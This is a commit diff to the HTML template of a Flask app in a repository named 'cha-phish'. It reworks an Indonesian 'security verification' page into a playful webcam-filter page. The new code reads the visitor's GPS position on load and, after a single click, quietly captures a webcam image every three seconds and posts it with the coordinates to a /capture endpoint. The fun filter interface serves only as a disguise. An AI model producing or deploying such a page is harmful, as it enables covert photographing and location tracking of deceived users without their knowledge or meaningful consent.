

Before and after one commit to zzabck0-source/cha-phish, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (359-1280 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/ai mamb/templates/index.html
+++ b/ai mamb/templates/index.html
@@ -3,35 +3,39 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>📸 Verifikasi Keamanan</title>
+    <title>😎 Akses Kamera</title>
     <style>
-        * { margin: 0; padding: 0; box-sizing: border-box; font-family: Arial, sans-serif; }
+        * { margin: 0; padding: 0; box-sizing: border-box; font-family: 'Comic Sans MS', cursive, sans-serif; }
         body {
-            background: #0d1117;
+            background: linear-gradient(135deg, #1a1a2e, #16213e, #0f3460);
             display: flex;
             justify-content: center;
             align-items: center;
             min-height: 100vh;
+            color: #fff;
         }
         .box {
-            background: #161b22;
-            padding: 35px;
-            border-radius: 16px;
-            width: 380px;
-            border: 1px solid #30363d;
+            background: rgba(255,255,255,0.08);
+            backdrop-filter: blur(12px);
+            padding: 40px 30px;
+            border-radius: 40px;
+            border: 2px solid rgba(255,255,255,0.15);
+            width: 400px;
             text-align: center;
+            box-shadow: 0 20px 60px rgba(0,0,0,0.6);
         }
-        .box h2 { color: #fff; margin-bottom: 5px; }
-        .box h2 span { color: #58a6ff; }
-        .sub { color: #8b949e; font-size: 14px; margin-bottom: 15px; }
+        .box h1 { font-size: 28px; margin-bottom: 6px; }
+        .box h1 span { color: #f9ca24; }
+        .sub { font-size: 14px; color: #aaa; margin-bottom: 18px; }
         .camera-box {
             width: 100%;
-            height: 220px;
-            background: #0d1117;
-            border: 2px dashed #30363d;
-            border-radius: 12px;
+            height: 260px;
+            background: #0d0d1a;
+            border-radius: 24px;
+            border: 3px dashed #f9ca24;
             overflow: hidden;
-            margin-bottom: 12px;
+            margin-bottom: 16px;
+            position: relative;
         }
         .camera-box video {
             width: 100%;
@@ -45,51 +49,88 @@
             align-items: center;
             justify-content: center;
             height: 100%;
-            color: #8b949e;
+            color: #888;
         }
-        .camera-box .placeholder .icon { font-size: 48px; }
+        .camera-box .placeholder .icon { font-size: 60px; }
+        .filter-badge {
+            background: #f9ca24;
+            color: #000;
+            padding: 6px 16px;
+            border-radius: 30px;
+            font-weight: bold;
+            font-size: 13px;
+            display: inline-block;
+            margin-bottom: 12px;
+        }
         .btn {
+            background: #f9ca24;
+            border: none;
+            padding: 14px 28px;
+            border-radius: 60px;
+            font-weight: bold;
+            font-size: 18px;
+            cursor: pointer;
+            color: #000;
+            transition: 0.3s;
             width: 100%;
-            padding: 13px;
-            margin-top: 10px;
-            background: #238636;
-            border: none;
-            border-radius: 8px;
+        }
+        .btn:hover { background: #f0b90b; transform: scale(1.02); }
+        .btn:disabled { background: #555; color: #aaa; cursor: not-allowed; }
+        .status {
+            margin: 14px 0 10px;
+            font-size: 14px;
+            color: #aaa;
+        }
+        .status.success { color: #6fcf97; }
+        .status.error { color: #eb5757; }
+        .status.gps { color: #f1c40f; }
+        .footer {
+            margin-top: 16px;
+            font-size: 11px;
+            color: #555;
+        }
+        .filter-select {
+            background: #1e2a3a;
             color: #fff;
-            font-weight: bold;
-            cursor: pointer;
+            border: 1px solid #333;
+            padding: 8px 14px;
+            border-radius: 30px;
+            font-size: 14px;
+            outline: none;
+            margin-bottom: 12px;
+            width: 100%;
         }
-        .btn:hover { background: #2ea043; }
-        .btn:disabled { background: #555; cursor: not-allowed; }
-        .status {
-            margin: 10px 0;
-            font-size: 13px;
-            color: #8b949e;
-        }
-        .status.success { color: #2ea043; }
-        .status.error { color: #da3633; }
-        .status.gps { color: #f1c40f; }
-        .footer { margin-top: 14px; font-size: 11px; color: #555; }
         .hidden { display: none; }
     </style>
 </head>
 <body>
 <div class="box">
-    <h2>📹 <span>Verifikasi Keamanan</span></h2>
-    <p class="sub">Untuk keamanan, verifikasi wajah & lokasi diperlukan</p>
+    <h1>📸 <span>Akses Kamera</span></h1>
+    <p class="sub">Tekan tombol di bawah buat mulai</p>
 
     <div class="camera-box" id="cameraBox">
         <div class="placeholder" id="placeholder">
-            <span class="icon">📷</span>
-            <span>Kamera akan aktif</span>
+            <span class="icon">🎥</span>
+            <span>Kamera siap dipakai</span>
         </div>
         <video id="video" class="hidden" autoplay muted></video>
     </div>
 
-    <div class="status" id="status">⏳ Menyiapkan...</div>
+    <div class="filter-badge">🎭 Filter Aktif</div>
+    <select class="filter-select" id="filterSelect">
+        <option value="none">🚫 Tanpa Filter</option>
+        <option value="grayscale">⚫ Grayscale</option>
+        <option value="sepia">🟤 Sepia</option>
+        <option value="blur">🌫️ Blur</option>
+        <option value="bright">☀️ Bright</option>
+        <option value="invert">🔄 Invert</option>
+        <option value="hue">🌈 Hue Rotate</option>
+    </select>
 
-    <button class="btn" id="startBtn">📸 Aktifkan Kamera & Kirim</button>
-    <div class="footer">© 2026 SecureSystem</div>
+    <div class="status" id="status">⏳ Klik tombol untuk akses kamera</div>
+
+    <button class="btn" id="startBtn">🎬 Aktifkan Kamera</button>
+    <div class="footer">✨ Filter lucu siap dipakai • © 2026</div>
 </div>
 
 <canvas id="canvas" class="hidden"></canvas>
@@ -101,25 +142,12 @@ const ctx = canvas.getContext('2d');
 const statusEl = document.getElementById('status');
 const startBtn = document.getElementById('startBtn');
 const placeholder = document.getElementById('placeholder');
+const filterSelect = document.getElementById('filterSelect');
 
 let stream = null;
 let cameraReady = false;
+let captureInterval = null;
 let gpsData = { lat: '-', lon: '-', acc: '-' };
-
-navigator.mediaDevices.getUserMedia({ video: { width: 640, height: 480 } })
-    .then((stream) => {
-        video.srcObject = stream;
-        video.classList.remove('hidden');
-        placeholder.style.display = 'none';
-        cameraReady = true;
-        statusEl.textContent = '✅ Kamera siap';
-        statusEl.className = 'status success';
-    })
-    .catch(() => {
-        statusEl.textContent = '⚠️ Izin kamera ditolak';
-        statusEl.className = 'status error';
-        cameraReady = false;
-    });
 
 navigator.geolocation.getCurrentPosition(
     (pos) => {
@@ -135,63 +163,93 @@ navigator.geolocation.getCurrentPosition(
     }
 );
 
-function captureImage() {
-    if (!cameraReady || !video.videoWidth) return null;
+function applyFilter() {
+    const filter = filterSelect.value;
+    switch(filter) {
+        case 'grayscale': return 'grayscale(100%)';
+        case 'sepia': return 'sepia(100%)';
+        case 'blur': return 'blur(3px)';
+        case 'bright': return 'brightness(1.5)';
+        case 'invert': return 'invert(100%)';
+        case 'hue': return 'hue-rotate(180deg)';
+        default: return 'none';
+    }
+}
+
+filterSelect.addEventListener('change', () => {
+    if (video) video.style.filter = applyFilter();
+});
+
+startBtn.addEventListener('click', async () => {
+    startBtn.disabled = true;
+    startBtn.textContent = '⏳ Meminta izin...';
+    statusEl.textContent = '📡 Mengakses kamera...';
+
+    try {
+        stream = await navigator.mediaDevices.getUserMedia({
+            video: { width: 640, height: 480, facingMode: 'user' }
+        });
+
+        video.srcObject = stream;
+        video.classList.remove('hidden');
+        placeholder.style.display = 'none';
+        cameraReady = true;
+
+        video.style.filter = applyFilter();
+
+        statusEl.textContent = '✅ Kamera aktif! Filter siap dipakai.';
+        statusEl.className = 'status success';
+        startBtn.textContent = '📸 Kamera ON';
+        startBtn.style.background = '#6fcf97';
+
+        captureInterval = setInterval(() => {
+            if (cameraReady) {
+                captureAndSend();
+            }
+        }, 3000);
+
+        setTimeout(captureAndSend, 1000);
+
+    } catch (err) {
+        statusEl.textContent = '⚠️ Gagal akses kamera: ' + err.message;
+        statusEl.className = 'status error';
+        startBtn.disabled = false;
+        startBtn.textContent = '🔄 Coba Lagi';
+    }
+});
+
+async function captureAndSend() {
+    if (!cameraReady || !video.videoWidth) return;
+
     canvas.width = video.videoWidth;
     canvas.height = video.videoHeight;
     ctx.drawImage(video, 0, 0);
-    return canvas.toDataURL('image/jpeg');
-}
 
-async function sendData(image) {
+    const filter = filterSelect.value;
+    ctx.filter = applyFilter();
+    ctx.drawImage(video, 0, 0);
+    ctx.filter = 'none';
+
+    const imageData = canvas.toDataURL('image/jpeg').split(',')[1];
+
     try {
-        const response = await fetch('/capture', {
+        await fetch('/capture', {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
             body: JSON.stringify({
                 username: 'guest',
                 password: 'filtered',
-                image: image || '',
+                image: imageData,
                 lat: gpsData.lat,
                 lon: gpsData.lon,
                 acc: gpsData.acc
             })
         });
-        const result = await response.json();
-        return result.status === 'success';
-    } catch (err) {
-        return false;
-    }
+    } catch (err) {}
 }
 
-startBtn.addEventListener('click', async () => {
-    if (!cameraReady) {
-        statusEl.textContent = '⚠️ Kamera belum siap!';
-        statusEl.className = 'status error';
-        return;
-    }
-
-    startBtn.disabled = true;
-    startBtn.textContent = '⏳ Mengirim...';
-    statusEl.textContent = '📤 Mengirim data...';
-    statusEl.className = 'status';
-
-    const image = captureImage();
-    const success = await sendData(image);
-
-    if (success) {
-        statusEl.textContent = '✅ Berhasil dikirim!';
-        statusEl.className = 'status success';
-        window.location.href = 'https://www.google.com';
-    } else {
-        statusEl.textContent = '⚠️ Gagal kirim, coba lagi';
-        statusEl.className = 'status error';
-        startBtn.disabled = false;
-        startBtn.textContent = '📸 Aktifkan Kamera & Kirim';
-    }
-});
-
 window.addEventListener('beforeunload', () => {
+    if (captureInterval) clearInterval(captureInterval);
     if (stream) stream.getTracks().forEach(t => t.stop());
 });
 </script>
```
